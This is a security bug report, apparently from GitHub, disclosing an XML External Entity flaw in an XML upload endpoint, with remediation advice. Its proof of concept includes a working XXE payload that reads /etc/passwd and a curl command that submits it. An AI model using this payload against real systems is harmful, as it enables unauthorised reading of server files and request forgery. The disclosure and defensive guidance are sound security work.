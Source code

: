 ### 🐞 Bug Report: XML External Entity (XXE) Vulnerability

**Reported By:** Raghav Arora  
**LinkedIn:** [https://www.linkedin.com/in/iamraghavarora](https://www.linkedin.com/in/iamraghavarora)  
**Severity:** High  
**Date Reported:** 2025-06-16

---

### 📄 Summary

An **XML External Entity (XXE)** vulnerability was discovered in the application's XML parsing functionality. This vulnerability allows attackers to exploit the XML parser by submitting malicious XML data containing references to external entities. It can lead to disclosure of sensitive files, denial of service, or server-side request forgery (SSRF).

---

### 📌 Affected Component

- Endpoint: `/api/upload-xml`  
- Functionality: XML File Upload / API XML Input Handling

---

### 🚨 Proof of Concept (PoC)

**Payload Submitted:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <data>&xxe;</data>
</root>
```

**Steps to Reproduce:**

1. Use any tool like `curl` or Burp Suite to send the XML payload to the vulnerable endpoint:
   ```bash
   curl -X POST https://example-vulnerable.com/api/upload-xml \
   -H "Content-Type: application/xml" \
   --data-binary @malicious.xml
   ```

2. Observe the server’s response. If it includes contents of `/etc/passwd`, the XXE attack was successful.

---

### ❗ Observed Result

- The server responded with internal file contents such as:
  ```
  root:x:0:0:root:/root:/bin/bash
  ```

---

### ✅ Expected Result

- The server should **not parse external entities** and should reject the file with an error message like:
  ```json
  {
    "error": "External entities not allowed in XML input."
  }
  ```

---

### 🎯 Impact

- Exposure of sensitive system files (e.g., `/etc/passwd`, config files)
- Server-side request forgery (SSRF)
- Denial of service via entity expansion (Billion Laughs attack)
- Credential or token exposure if connected to cloud environments
- Potential remote code execution depending on system setup

---

### 🛠️ Suggested Remediation

- Disable DTDs (external entities) entirely in the XML parser configuration.
- Use secure parsers (e.g., `defusedxml` in Python, or Java XML parsers with XXE disabled).
- Apply strong input validation and schema restrictions.
- Monitor for unusual XML traffic or repeated file read patterns.

---

### 🔒 Security Best Practices

- Avoid XML when possible in favor of safer formats like JSON.
- Harden XML parsers by disabling features like entity resolution, DTDs.
- Implement WAF rules to detect malicious XML payloads.
- Log all parsing exceptions and monitor anomalies.

---

### 🙏 Note to Security Team / Senior Reviewer

XXE attacks can lead to **serious data breaches** and compromise of internal infrastructure. It is highly recommended to audit all XML-handling endpoints and implement strict parser configurations across all services that consume XML input.
